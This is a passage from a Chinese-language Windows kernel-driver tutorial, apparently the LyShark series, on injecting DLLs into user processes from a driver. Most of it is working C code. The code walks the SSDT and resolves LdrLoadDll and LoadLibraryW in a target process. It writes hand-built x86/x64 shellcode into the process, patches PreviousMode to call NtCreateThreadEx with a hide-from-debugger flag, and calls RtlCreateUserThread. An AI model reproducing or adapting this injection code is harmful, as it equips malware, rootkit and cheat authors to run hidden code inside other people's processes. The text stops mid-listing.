**GetOsBaseAddress:** 该函数可实现输出特定内核模块的基地址，本例中写死在了变量`wzData`中，如果需要改进只需要替换参数传递即可实现自定义取值，调用该函数你只需要传入`PDRIVER_OBJECT`自身驱动对象即可，代码如下所示；
```c
#include "lyshark.h"

VOID Unload(PDRIVER_OBJECT pDriverObj)
{
    DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegPath)
{
    DbgPrint("Hello LyShark.com \n");

    ULONGLONG kernel_base = GetOsBaseAddress(DriverObject);
    DbgPrint("ntoskrnl.exe 模块基址: %p \n", kernel_base);

    DriverObject->DriverUnload = Unload;
    return STATUS_SUCCESS;
}
```

编译并运行如上代码片段，即可输出`ntoskrnl.exe`内核模块的基址，效果图如下所示；



**GetSSDTFuncCurAddr:** 该函数可实现根据用户传入的SSDT表下标，获取到该函数的基址，代码如下所示；
```c
#include "lyshark.h"

VOID Unload(PDRIVER_OBJECT pDriverObj)
{
    DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegPath)
{
    DbgPrint("Hello LyShark.com \n");

    // 得到SSDT基地址
    KeServiceDescriptorTable = (PSYSTEM_SERVICE_TABLE)GetKeServiceDescriptorTable64(DriverObject);
    DbgPrint("SSDT基地址: %p \n", KeServiceDescriptorTable->ServiceTableBase);

    // 根据序号得到指定函数地址
    ULONGLONG address = NULL;
    
    address = GetSSDTFuncCurAddr(10);
    DbgPrint("得到函数地址: %p \n", address);

    address = GetSSDTFuncCurAddr(11);
    DbgPrint("得到函数地址: %p \n", address);

    address = GetSSDTFuncCurAddr(12);
    DbgPrint("得到函数地址: %p \n", address);

    DriverObject->DriverUnload = Unload;
    return STATUS_SUCCESS;
}
```

编译并运行如上代码片段，即可输出下标为`10，11，12`的SSDT函数基址，效果图如下所示；



**GetSSDTRVA:** 根据传入的函数名获取该函数的RVA地址，用户传入一个特定模块下导出函数的函数名，动态得到该函数的相对偏移地址。
```c
#include "lyshark.h"

VOID Unload(PDRIVER_OBJECT pDriverObj)
{
    DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegPath)
{
    DbgPrint("Hello LyShark.com \n");

    ULONG64 ReadFile_RVA = GetSSDTRVA("NtReadFile");
    DbgPrint("NtReadFile = %p \n", ReadFile_RVA);

    ULONG64 NtCreateEnlistment_RVA = GetSSDTRVA("NtCreateEnlistment");
    DbgPrint("NtCreateEnlistment = %p \n", NtCreateEnlistment_RVA);

    DriverObject->DriverUnload = Unload;
    return STATUS_SUCCESS;
}
```

编译并运行如上代码片段，即可输出`NtReadFile,NtCreateEnlistment`两个内核函数的RVA地址，效果图如下所示；



**GetIndexByName:** 该函数接收用户传入的一个`SSDT`函数名，并返回该函数所对应的下标，调用代码如下；
```c
#include "lyshark.h"

VOID Unload(PDRIVER_OBJECT pDriverObj)
{
    DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegPath)
{
    DbgPrint("Hello LyShark.com \n");

    ULONG index1 = GetIndexByName((UCHAR *)"NtCreateThreadEx");
    DbgPrint("函数NtCreateThreadEx下标: %d \n", index1);

    ULONG index2 = GetIndexByName((UCHAR *)"NtReadFile");
    DbgPrint("函数NtReadFile下标: %d \n", index2);

    DriverObject->DriverUnload = Unload;
    return STATUS_SUCCESS;
}
```

编译并运行如上代码片段，即可输出`NtCreateThreadEx,NtReadFile`两个内核函数的下标，效果图如下所示；



**GetUserModuleAddress:** 该函数用于获取进程模块基址，在内核模式下附加到应用层指定进程上，并动态获取到该进程所加载的指定模块的基址，调用代码如下；
```c
#include "lyshark.h"

VOID Unload(PDRIVER_OBJECT pDriverObj)
{
    DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegPath)
{
    DbgPrint("Hello LyShark.com \n");

    HANDLE ProcessID = (HANDLE)6932;

    PEPROCESS EProcess = NULL;
    NTSTATUS Status = STATUS_SUCCESS;
    KAPC_STATE ApcState;

    // 根据PID得到进程EProcess结构
    Status = PsLookupProcessByProcessId(ProcessID, &EProcess);
    if (Status != STATUS_SUCCESS)
    {
        DbgPrint("[-] 获取EProcessID失败 \n");
        return Status;
    }

    // 判断目标进程是32位还是64位
    BOOLEAN IsWow64 = (PsGetProcessWow64Process(EProcess) != NULL) ? TRUE : FALSE;

    // 验证地址是否可读
    if (!MmIsAddressValid(EProcess))
    {
        DbgPrint("[-] 地址不可读 \n");
        DriverObject->DriverUnload = Unload;
        return STATUS_SUCCESS;
    }

    // 将当前线程连接到目标进程的地址空间(附加进程)
    KeStackAttachProcess((PRKPROCESS)EProcess, &ApcState);

    __try
    {
        UNICODE_STRING NtdllUnicodeString = { 0 };
        PVOID NtdllAddress = NULL;

        // 得到进程内ntdll.dll模块基地址
        RtlInitUnicodeString(&NtdllUnicodeString, L"Ntdll.dll");

        NtdllAddress = GetUserModuleAddress(EProcess, &NtdllUnicodeString, IsWow64);

        if (!NtdllAddress)
        {
            DbgPrint("[-] 没有找到基址 \n");
            DriverObject->DriverUnload = Unload;
            return STATUS_SUCCESS;
        }

        DbgPrint("[*] 模块ntdll.dll基址: %p \n", NtdllAddress);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
    }

    // 取消附加
    KeUnstackDetachProcess(&ApcState);
    DriverObject->DriverUnload = Unload;
    return STATUS_SUCCESS;
}
```

编译并运行如上代码片段，则获取进程`PID=6932`里面的`ntdll.dll`模块的基址，输出效果图如下所示；



**GetModuleExportAddress:** 该函数可用于获取特定模块中特定函数的基址，此功能需要配合获取模块基址一起使用，调用代码如下；
```c
#include "lyshark.h"

VOID Unload(PDRIVER_OBJECT pDriverObj)
{
    DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegPath)
{
    DbgPrint("Hello LyShark.com \n");

    HANDLE ProcessID = (HANDLE)6932;
    PEPROCESS EProcess = NULL;
    NTSTATUS Status = STATUS_SUCCESS;

    // 根据PID得到进程EProcess结构
    Status = PsLookupProcessByProcessId(ProcessID, &EProcess);
    if (Status != STATUS_SUCCESS)
    {
        DbgPrint("[-] 获取EProcessID失败 \n");
        return Status;
    }

    PVOID BaseAddress = (PVOID)0x77540000;
    PVOID RefAddress = 0;

    // 传入Ntdll.dll基址 + 函数名 得到该函数地址
    RefAddress = GetModuleExportAddress(BaseAddress, "LdrLoadDll", EProcess);
    DbgPrint("[*] 函数地址: %p \n", RefAddress);

    DriverObject->DriverUnload = Unload;
    return STATUS_SUCCESS;
}
```

编译并运行如上代码片段，则获取进程`PID=6932`里面的`ntdll.dll`模块里的`LdrLoadDll`函数基址，输出效果图如下所示；



**SeCreateThreadEx:** 该函数则是实际执行注入的函数，此段代码中需要注意的是`pPrevMode`中的偏移值，每个系统中都不相同，用户需要自行在`WinDBG`中输入`!_KTHREAD`得到线程信息，并找到`PreviousMode`字段，该字段中的偏移值需要`(PUCHAR)PsGetCurrentThread() + 0x232`才可得到正确位置。

```c
#include "lyshark.h"

// -----------------------------------------------------------------------------------
// 注入代码生成函数
// -----------------------------------------------------------------------------------

// 创建64位注入代码
PINJECT_BUFFER GetNative64Code(IN PVOID LdrLoadDll, IN PUNICODE_STRING DllFullPath)
{
    NTSTATUS Status = STATUS_SUCCESS;
    PINJECT_BUFFER InjectBuffer = NULL;
    SIZE_T Size = PAGE_SIZE;

    UCHAR Code[] = {
        0x48, 0x83, 0xEC, 0x28,                 // sub rsp, 0x28
        0x48, 0x31, 0xC9,                       // xor rcx, rcx
        0x48, 0x31, 0xD2,                       // xor rdx, rdx
        0x49, 0xB8, 0, 0, 0, 0, 0, 0, 0, 0,     // mov r8, ModuleFileName   offset +12
        0x49, 0xB9, 0, 0, 0, 0, 0, 0, 0, 0,     // mov r9, ModuleHandle     offset +28
        0x48, 0xB8, 0, 0, 0, 0, 0, 0, 0, 0,     // mov rax, LdrLoadDll      offset +32
        0xFF, 0xD0,                             // call rax
        0x48, 0xBA, 0, 0, 0, 0, 0, 0, 0, 0,     // mov rdx, COMPLETE_OFFSET offset +44
        0xC7, 0x02, 0x7E, 0x1E, 0x37, 0xC0,     // mov [rdx], CALL_COMPLETE 
        0x48, 0xBA, 0, 0, 0, 0, 0, 0, 0, 0,     // mov rdx, STATUS_OFFSET   offset +60
        0x89, 0x02,                             // mov [rdx], eax
        0x48, 0x83, 0xC4, 0x28,                 // add rsp, 0x28
        0xC3                                    // ret
    };

    Status = ZwAllocateVirtualMemory(ZwCurrentProcess(), &InjectBuffer, 0, &Size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (NT_SUCCESS(Status))
    {
        PUNICODE_STRING UserPath = &InjectBuffer->Path64;
        UserPath->Length = 0;
        UserPath->MaximumLength = sizeof(InjectBuffer->Buffer);
        UserPath->Buffer = InjectBuffer->Buffer;

        RtlUnicodeStringCopy(UserPath, DllFullPath);

        // Copy code
        memcpy(InjectBuffer, Code, sizeof(Code));

        // Fill stubs
        *(ULONGLONG*)((PUCHAR)InjectBuffer + 12) = (ULONGLONG)UserPath;
        *(ULONGLONG*)((PUCHAR)InjectBuffer + 22) = (ULONGLONG)&InjectBuffer->ModuleHandle;
        *(ULONGLONG*)((PUCHAR)InjectBuffer + 32) = (ULONGLONG)LdrLoadDll;
        *(ULONGLONG*)((PUCHAR)InjectBuffer + 44) = (ULONGLONG)&InjectBuffer->Complete;
        *(ULONGLONG*)((PUCHAR)InjectBuffer + 60) = (ULONGLONG)&InjectBuffer->Status;

        return InjectBuffer;
    }

    UNREFERENCED_PARAMETER(DllFullPath);
    return NULL;
}

// 创建32位注入代码
PINJECT_BUFFER GetNative32Code(IN PVOID LdrLoadDll, IN PUNICODE_STRING DllFullPath)
{
    NTSTATUS Status = STATUS_SUCCESS;
    PINJECT_BUFFER InjectBuffer = NULL;
    SIZE_T Size = PAGE_SIZE;

    // Code
    UCHAR Code[] = {
        0x68, 0, 0, 0, 0,                       // push ModuleHandle            offset +1 
        0x68, 0, 0, 0, 0,                       // push ModuleFileName          offset +6
        0x6A, 0,                                // push Flags  
        0x6A, 0,                                // push PathToFile
        0xE8, 0, 0, 0, 0,                       // call LdrLoadDll              offset +15
        0xBA, 0, 0, 0, 0,                       // mov edx, COMPLETE_OFFSET     offset +20
        0xC7, 0x02, 0x7E, 0x1E, 0x37, 0xC0,     // mov [edx], CALL_COMPLETE     
        0xBA, 0, 0, 0, 0,                       // mov edx, STATUS_OFFSET       offset +31
        0x89, 0x02,                             // mov [edx], eax
        0xC2, 0x04, 0x00                        // ret 4
    };

    Status = ZwAllocateVirtualMemory(ZwCurrentProcess(), &InjectBuffer, 0, &Size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (NT_SUCCESS(Status))
    {
        // Copy path
        PUNICODE_STRING32 pUserPath = &InjectBuffer->Path32;
        pUserPath->Length = DllFullPath->Length;
        pUserPath->MaximumLength = DllFullPath->MaximumLength;
        pUserPath->Buffer = (ULONG)(ULONG_PTR)InjectBuffer->Buffer;

        // Copy path
        memcpy((PVOID)pUserPath->Buffer, DllFullPath->Buffer, DllFullPath->Length);

        // Copy code
        memcpy(InjectBuffer, Code, sizeof(Code));

        // Fill stubs
        *(ULONG*)((PUCHAR)InjectBuffer + 1) = (ULONG)(ULONG_PTR)&InjectBuffer->ModuleHandle;
        *(ULONG*)((PUCHAR)InjectBuffer + 6) = (ULONG)(ULONG_PTR)pUserPath;
        *(ULONG*)((PUCHAR)InjectBuffer + 15) = (ULONG)((ULONG_PTR)LdrLoadDll - ((ULONG_PTR)InjectBuffer + 15) - 5 + 1);
        *(ULONG*)((PUCHAR)InjectBuffer + 20) = (ULONG)(ULONG_PTR)&InjectBuffer->Complete;
        *(ULONG*)((PUCHAR)InjectBuffer + 31) = (ULONG)(ULONG_PTR)&InjectBuffer->Status;

        return InjectBuffer;
    }

    UNREFERENCED_PARAMETER(DllFullPath);
    return NULL;
}

// -----------------------------------------------------------------------------------
// 启动子线程函数(注入函数)
// -----------------------------------------------------------------------------------

// 启动线程
NTSTATUS NTAPI SeCreateThreadEx(OUT PHANDLE ThreadHandle, IN ACCESS_MASK DesiredAccess, IN PVOID ObjectAttributes, IN HANDLE ProcessHandle, IN PVOID StartAddress, IN PVOID Parameter, IN ULONG Flags, IN SIZE_T StackZeroBits, IN SIZE_T SizeOfStackCommit, IN SIZE_T SizeOfStackReserve, IN PNT_PROC_THREAD_ATTRIBUTE_LIST AttributeList)
{
    NTSTATUS Status = STATUS_SUCCESS;

    // 根据字符串NtCreateThreadEx得到下标,并通过下标查询SSDT函数地址
    LPFN_NTCREATETHREADEX NtCreateThreadEx = (LPFN_NTCREATETHREADEX)(GetSSDTFuncCurAddr(GetIndexByName((UCHAR *)"NtCreateThreadEx")));
    DbgPrint("线程函数地址: %p --> 开始执行地址: %p \n", NtCreateThreadEx, StartAddress);

    if (NtCreateThreadEx)
    {
        // 如果之前的模式是用户模式，地址传递到ZwCreateThreadEx必须在用户模式空间
        // 切换到内核模式允许使用内核模式地址
        /*
        dt !_KTHREAD
        +0x1c8 Win32Thread      : Ptr64 Void
        + 0x140 WaitBlockFill11 : [176] UChar
        + 0x1f0 Ucb : Ptr64 _UMS_CONTROL_BLOCK
        + 0x232 PreviousMode : Char
        */

        // Windows10 PreviousMode = 0x232
        PUCHAR pPrevMode = (PUCHAR)PsGetCurrentThread() + 0x232;

        // 64位 pPrevMode = 01
        UCHAR prevMode = *pPrevMode;

        // 内核模式
        *pPrevMode = KernelMode;

        // 创建线程
        Status = NtCreateThreadEx(ThreadHandle, DesiredAccess, ObjectAttributes, ProcessHandle, StartAddress, Parameter, Flags, StackZeroBits, SizeOfStackCommit, SizeOfStackReserve, AttributeList);

        // 恢复之前的线程模式
        *pPrevMode = prevMode;
    }
    else
    {
        Status = STATUS_NOT_FOUND;
    }
    return Status;
}

// 执行线程
NTSTATUS ExecuteInNewThread(IN PVOID BaseAddress, IN PVOID Parameter, IN ULONG Flags, IN BOOLEAN Wait, OUT PNTSTATUS ExitStatus)
{
    HANDLE ThreadHandle = NULL;
    OBJECT_ATTRIBUTES ObjectAttributes = { 0 };

    // 初始化对象属性
    InitializeObjectAttributes(&ObjectAttributes, NULL, OBJ_KERNEL_HANDLE, NULL, NULL);

    // 创建线程
    NTSTATUS Status = SeCreateThreadEx(&ThreadHandle, THREAD_QUERY_LIMITED_INFORMATION, &ObjectAttributes, ZwCurrentProcess(), BaseAddress, Parameter, Flags, 0, 0x1000, 0x100000, NULL);
    // 等待线程完成
    if (NT_SUCCESS(Status) && Wait != FALSE)
    {
        // 延迟 60s
        LARGE_INTEGER Timeout = { 0 };
        Timeout.QuadPart = -(60ll * 10 * 1000 * 1000);

        Status = ZwWaitForSingleObject(ThreadHandle, TRUE, &Timeout);
        if (NT_SUCCESS(Status))
        {
            // 查询线程退出码
            THREAD_BASIC_INFORMATION ThreadBasicInfo = { 0 };
            ULONG ReturnLength = 0;

            Status = ZwQueryInformationThread(ThreadHandle, ThreadBasicInformation, &ThreadBasicInfo, sizeof(ThreadBasicInfo), &ReturnLength);

            if (NT_SUCCESS(Status) && ExitStatus)
            {
                // 这里是查询当前的dll是否注入成功
                *ExitStatus = ThreadBasicInfo.ExitStatus;
            }
            else if (!NT_SUCCESS(Status))
            {
                DbgPrint("%s: ZwQueryInformationThread failed with status 0x%X\n", __FUNCTION__, Status);
            }
        }
        else
        {
            DbgPrint("%s: ZwWaitForSingleObject failed with status 0x%X\n", __FUNCTION__, Status);
        }
    }
    else
    {
        DbgPrint("%s: ZwCreateThreadEx failed with status 0x%X\n", __FUNCTION__, Status);
    }

    if (ThreadHandle)
    {
        ZwClose(ThreadHandle);
    }
    return Status;
}

// 切换到目标进程创建内核线程进行注入 (cr3切换)
NTSTATUS AttachAndInjectProcess(IN HANDLE ProcessID, PWCHAR DllPath)
{
    PEPROCESS EProcess = NULL;
    KAPC_STATE ApcState;
    NTSTATUS Status = STATUS_SUCCESS;

    if (ProcessID == NULL)
    {
        Status = STATUS_UNSUCCESSFUL;
        return Status;
    }

    // 获取EProcess
    Status = PsLookupProcessByProcessId(ProcessID, &EProcess);
    if (Status != STATUS_SUCCESS)
    {
        return Status;
    }

    // 判断目标进程x86 or x64
    BOOLEAN IsWow64 = (PsGetProcessWow64Process(EProcess) != NULL) ? TRUE : FALSE;

    // 将当前线程连接到目标进程的地址空间
    KeStackAttachProcess((PRKPROCESS)EProcess, &ApcState);
    __try
    {
        PVOID NtdllAddress = NULL;
        PVOID LdrLoadDll = NULL;
        UNICODE_STRING NtdllUnicodeString = { 0 };
        UNICODE_STRING DllFullPath = { 0 };

        // 获取ntdll模块基地址
        RtlInitUnicodeString(&NtdllUnicodeString, L"Ntdll.dll");
        NtdllAddress = GetUserModuleAddress(EProcess, &NtdllUnicodeString, IsWow64);
        if (!NtdllAddress)
        {
            Status = STATUS_NOT_FOUND;
        }

        // 获取LdrLoadDll
        if (NT_SUCCESS(Status))
        {
            LdrLoadDll = GetModuleExportAddress(NtdllAddress, "LdrLoadDll", EProcess);
            if (!LdrLoadDll)
            {
                Status = STATUS_NOT_FOUND;
            }
        }

        PINJECT_BUFFER InjectBuffer = NULL;
        if (IsWow64)
        {
            // 注入32位DLL
            RtlInitUnicodeString(&DllFullPath, DllPath);
            InjectBuffer = GetNative32Code(LdrLoadDll, &DllFullPath);
            DbgPrint("[*] 注入32位DLL \n");
        }
        else
        {
            // 注入64位DLL
            RtlInitUnicodeString(&DllFullPath, DllPath);
            InjectBuffer = GetNative64Code(LdrLoadDll, &DllFullPath);
            DbgPrint("[*] 注入64位DLL \n");
        }

        //创建线程,执行构造的 shellcode
        ExecuteInNewThread(InjectBuffer, NULL, THREAD_CREATE_FLAGS_HIDE_FROM_DEBUGGER, TRUE, &Status);
        if (!NT_SUCCESS(Status))
        {
            DbgPrint("ExecuteInNewThread Failed\n");
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        Status = STATUS_UNSUCCESSFUL;
    }
    // 释放EProcess
    KeUnstackDetachProcess(&ApcState);
    ObDereferenceObject(EProcess);
    return Status;
}

VOID Unload(PDRIVER_OBJECT pDriverObj)
{
    DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegPath)
{
    DbgPrint("Hello LyShark \n");

    // 获取SSDT表基址
    KeServiceDescriptorTable = (PSYSTEM_SERVICE_TABLE)GetKeServiceDescriptorTable64(DriverObject);

    // 得到进程PID
    HANDLE processid = GetProcessID("x32.exe");
    DbgPrint("进程PID = %d \n", processid);

    // 附加执行注入
    AttachAndInjectProcess(processid, L"C:\\hook.dll");

    DriverObject->DriverUnload = Unload;
    return STATUS_SUCCESS;
}
```

运行如上这段代码片段，将编译好的DLL文件放入到`C：\\hook.dll`目录下，并运行`x32.exe`程序，手动加载驱动即可注入成功，输出效果图如下所示；



回到应用层进程中，可看到我们的DLL已经被注入到目标进程内了，效果图如下所示；




### 9.10 内核LoadLibrary实现DLL注入

远程线程注入是最常用的一种注入技术，在应用层注入是通过`CreateRemoteThread`这个函数实现的，该函数通过创建线程并调用 `LoadLibrary` 动态载入指定的DLL来实现注入，而在内核层同样存在一个类似的内核函数`RtlCreateUserThread`，但需要注意的是此函数未被公开，`RtlCreateUserThread`其实是对`NtCreateThreadEx`的包装，但最终会调用`ZwCreateThread`来实现注入，`RtlCreateUserThread`是`CreateRemoteThread`的底层实现。

内核级别的LoadLibrary实现DLL注入的过程与用户级别的LoadLibrary实现DLL注入的过程类似，只不过是在内核模式下实现。具体而言，实现内核级别的LoadLibrary实现DLL注入。

基于LoadLibrary实现的注入原理具体实现分为如下几步；

 - 1.调用`AllocMemory`,在对端应用层开辟空间，函数封装来源于`《内核远程堆分配与销毁》`章节；
 - 2.调用`MDLWriteMemory`，将DLL路径字符串写出到对端内存，函数封装来源于`《内核MDL读写进程内存》`章节；
 - 3.调用`GetUserModuleAddress`，获取到`kernel32.dll`模块基址，函数封装来源于`《内核远程线程实现DLL注入》`章节；
 - 4.调用`GetModuleExportAddress`，获取到`LoadLibraryW`函数的内存地址，函数封装来源于`《内核远程线程实现DLL注入》`章节；
 - 5.最后调用本章封装函数`MyCreateRemoteThread`，将应用层DLL动态转载到进程内，实现DLL注入；

总结起来就是首先在目标进程申请一块空间，空间里面写入要注入的DLL的路径字符串或者是一段ShellCode，找到该内存中`LoadLibrary`的基址并传入到`RtlCreateUserThread`中，此时进程自动加载我们指定路径下的DLL文件。

注入依赖于`RtlCreateUserThread`这个未到处内核函数，该内核函数中最需要关心的参数是`ProcessHandle`用于接收进程句柄，`StartAddress`接收一个函数地址，`StartParameter`用于对函数传递参数，具体的函数原型如下所示；
```c
typedef DWORD(WINAPI* pRtlCreateUserThread)(
    IN HANDLE                    ProcessHandle,          // 进程句柄
    IN PSECURITY_DESCRIPTOR      SecurityDescriptor,
    IN BOOL                      CreateSuspended,
    IN ULONG                     StackZeroBits,
    IN OUT PULONG                StackReserved,
    IN OUT PULONG                StackCommit,
    IN LPVOID                    StartAddress,          // 执行函数地址 LoadLibraryW
    IN LPVOID                    StartParameter,        // 参数传递
    OUT HANDLE                   ThreadHandle,          // 线程句柄
    OUT LPVOID                   ClientID
    );
```
由于我们加载DLL使用的是`LoadLibraryW`函数，此函数在运行时只需要一个参数，我们可以将DLL的路径传递进去，并调用`LoadLibraryW`以此来将特定模块拉起，该函数的定义规范如下所示；
```c
HMODULE LoadLibraryW(
  [in] LPCWSTR lpLibFileName
);
```

根据上一篇文章中针对注入头文件`lyshark.h`的封装，本章将继续使用这个头文件中的函数，首先我们实现这样一个功能，将一段准备好的`UCHAR`字符串动态的写出到应用层进程内存，并以宽字节模式写出在对端内存中，这段代码可以写为如下样子；
```c
#include "lyshark.h"

// 驱动卸载例程
VOID UnDriver(PDRIVER_OBJECT driver)
{
  DbgPrint("Uninstall Driver \n");
}

// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
  DbgPrint("Hello LyShark \n");

  DWORD process_id = 7112;
  DWORD create_size = 1024;
  DWORD64 ref_address = 0;

  // 分配内存堆 《内核远程堆分配与销毁》 核心代码
  NTSTATUS Status = AllocMemory(process_id, create_size, &ref_address);

  DbgPrint("对端进程: %d \n", process_id);
  DbgPrint("分配长度: %d \n", create_size);
  DbgPrint("[*] 分配内核堆基址: %p \n", ref_address);

  UCHAR DllPath[256] = "C:\\hook.dll";
  UCHAR Item[256] = { 0 };

  // 将字节转为双字
  for (int x = 0, y = 0; x < strlen(DllPath) * 2; x += 2, y++)
  {
    Item[x] = DllPath[y];
  }

  // 写出内存 《内核MDL读写进程内存》 核心代码
  ReadMemoryStruct ptr;

  ptr.pid = process_id;
  ptr.address = ref_address;
  ptr.size = strlen(DllPath) * 2;

  // 需要写入的数据
  ptr.data = ExAllocatePool(PagedPool, ptr.size);

  // 循环设置
  for (int i = 0; i < ptr.size; i++)
  {
    ptr.data[i] = Item[i];
  }

  // 写内存
  MDLWriteMemory(&ptr);

  Driver->DriverUnload = UnDriver;
  return STATUS_SUCCESS;
}
```

运行如上方所示的代码，将会在目标进程`7112`中开辟一段内存空间，并写出`C:\hook.dll`字符串，运行效果图如下所示；



此处你可以通过`x64dbg`附加到应用层进程内，并观察内存`0000000002200000`会看到如下字符串已被写出，双字类型则是每一个字符空一格，效果图如下所示；



继续实现所需要的子功能，实现动态获取`Kernel32.dll`模块里面`LiadLibraryW`这个导出函数的内存地址，这段代码相信你可以很容易的写出来，根据上节课的知识点我们可以二次封装一个`GetProcessAddress`来实现对特定模块基址的获取功能，如下是完整代码案例；
```c
#include "lyshark.h"

// 实现取模块基址
PVOID GetProcessAddress(HANDLE ProcessID, PWCHAR DllName, PCCHAR FunctionName)
{
  PEPROCESS EProcess = NULL;
  NTSTATUS Status = STATUS_SUCCESS;
  KAPC_STATE ApcState;
  PVOID RefAddress = 0;

  // 根据PID得到进程EProcess结构
  Status = PsLookupProcessByProcessId(ProcessID, &EProcess);
  if (Status != STATUS_SUCCESS)
  {
    return Status;
  }

  // 判断目标进程是32位还是64位
  BOOLEAN IsWow64 = (PsGetProcessWow64Process(EProcess) != NULL) ? TRUE : FALSE;

  // 验证地址是否可读
  if (!MmIsAddressValid(EProcess))
  {
    return NULL;
  }

  // 将当前线程连接到目标进程的地址空间(附加进程)
  KeStackAttachProcess((PRKPROCESS)EProcess, &ApcState);

  __try
  {
    UNICODE_STRING DllUnicodeString = { 0 };
    PVOID BaseAddress = NULL;

    // 得到进程内模块基地址
    RtlInitUnicodeString(&DllUnicodeString, DllName);

    BaseAddress = GetUserModuleAddress(EProcess, &DllUnicodeString, IsWow64);

    if (!BaseAddress)
    {
      return NULL;
    }

    DbgPrint("[*] 模块基址: %p \n", BaseAddress);

    // 得到该函数地址
    RefAddress = GetModuleExportAddress(BaseAddress, FunctionName, EProcess);
    DbgPrint("[*] 函数地址: %p \n", RefAddress);
  }
  __except (EXCEPTION_EXECUTE_HANDLER)
  {
    return NULL;
  }

  // 取消附加
  KeUnstackDetachProcess(&ApcState);
  return RefAddress;
}

VOID Unload(PDRIVER_OBJECT pDriverObj)
{
  DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegPath)
{
  DbgPrint("Hello LyShark.com \n");

  // 取模块基址
  PVOID pLoadLibraryW = GetProcessAddress(5200, L"kernel32.dll", "LoadLibraryW");

  DbgPrint("[*] 所在内存地址 = %p \n", pLoadLibraryW);

  DriverObject->DriverUnload = Unload;
  return STATUS_SUCCESS;
}
```

编译并运行如上驱动代码，将自动获取`PID=5200`进程中`Kernel32.dll`模块内的`LoadLibraryW`的内存地址，输出效果图如下所示；



实现注入的最后一步就是调用自定义函数`MyCreateRemoteThread`该函数实现原理是调用`RtlCreateUserThread`开线程执行，这段代码的最终实现如下所示；
```c
#include "lyshark.h"

// 定义函数指针
typedef PVOID(NTAPI* PfnRtlCreateUserThread)
(
  IN HANDLE ProcessHandle,
  IN PSECURITY_DESCRIPTOR SecurityDescriptor,
  IN BOOLEAN CreateSuspended,
  IN ULONG StackZeroBits,
  IN OUT size_t StackReserved,
  IN OUT size_t StackCommit,
  IN PVOID StartAddress,
  IN PVOID StartParameter,
  OUT PHANDLE ThreadHandle,
  OUT PCLIENT_ID ClientID
);

// 实现取模块基址
PVOID GetProcessAddress(HANDLE ProcessID, PWCHAR DllName, PCCHAR FunctionName)
{
  PEPROCESS EProcess = NULL;
  NTSTATUS Status = STATUS_SUCCESS;
  KAPC_STATE ApcState;
  PVOID RefAddress = 0;

  // 根据PID得到进程EProcess结构
  Status = PsLookupProcessByProcessId(ProcessID, &EProcess);
  if (Status != STATUS_SUCCESS)
  {
    return Status;
  }

  // 判断目标进程是32位还是64位
  BOOLEAN IsWow64 = (PsGetProcessWow64Process(EProcess) != NULL) ? TRUE : FALSE;

  // 验证地址是否可读
  if (!MmIsAddressValid(EProcess))
  {
    return NULL;
  }

  // 将当前线程连接到目标进程的地址空间(附加进程)
  KeStackAttachProcess((PRKPROCESS)EProcess, &ApcState);

  __try
  {
    UNICODE_STRING DllUnicodeString = { 0 };
    PVOID BaseAddress = NULL;

    // 得到进程内模块基地址
    RtlInitUnicodeString(&DllUnicodeString, DllName);

    BaseAddress = GetUserModuleAddress(EProcess, &DllUnicodeString, IsWow64);

    if (!BaseAddress)
    {
      return NULL;
    }

    DbgPrint("[*] 模块基址: %p \n", BaseAddress);

    // 得到该函数地址
    RefAddress = GetModuleExportAddress(BaseAddress, FunctionName, EProcess);
    DbgPrint("[*] 函数地址: %p \n", RefAddress);
  }
  __except (EXCEPTION_EXECUTE_HANDLER)
  {
    return NULL;
  }

  // 取消附加
  KeUnstackDetachProcess(&ApcState);
  return RefAddress;
}

// 远程线程注入函数
BOOLEAN MyCreateRemoteThread(ULONG pid, PVOID pRing3Address, PVOID PParam)
{
  NTSTATUS status = STATUS_UNSUCCESSFUL;
  PEPROCESS pEProcess = NULL;
  KAPC_STATE ApcState = { 0 };

  PfnRtlCreateUserThread RtlCreateUserThread = NULL;
  HANDLE hThread = 0;

  __try
  {
    // 获取RtlCreateUserThread函数的内存地址
    UNICODE_STRING ustrRtlCreateUserThread;
    RtlInitUnicodeString(&ustrRtlCreateUserThread, L"RtlCreateUserThread");
    RtlCreateUserThread = (PfnRtlCreateUserThread)MmGetSystemRoutineAddress(&ustrRtlCreateUserThread);
    if (RtlCreateUserThread == NULL)
    {
      return FALSE;
    }

    // 根据进程PID获取进程EProcess结构
    status = PsLookupProcessByProcessId((HANDLE)pid, &pEProcess);
    if (!NT_SUCCESS(status))
    {
      return FALSE;
    }

    // 附加到目标进程内
    KeStackAttachProcess(pEProcess, &ApcState);

    // 验证进程是否可读写
    if (!MmIsAddressValid(pRing3Address))
    {
      return FALSE;
    }

    // 启动注入线程
    status = RtlCreateUserThread(ZwCurrentProcess(),
      NULL,
      FALSE,
      0,
      0,
      0,
      pRing3Address,
      PParam,
      &hThread,
      NULL);
    if (!NT_SUCCESS(status))
    {
      return FALSE;
    }

    return TRUE;
  }

  __finally
  {
    // 释放对象
    if (pEProcess != NULL)
    {
      ObDereferenceObject(pEProcess);
      pEProcess = NULL;
    }

    // 取消附加进程
    KeUnstackDetachProcess(&ApcState);
  }

  return FALSE;
}

VOID Unload(PDRIVER_OBJECT pDriverObj)
{
  DbgPrint("[-] 驱动卸载 \n");
}

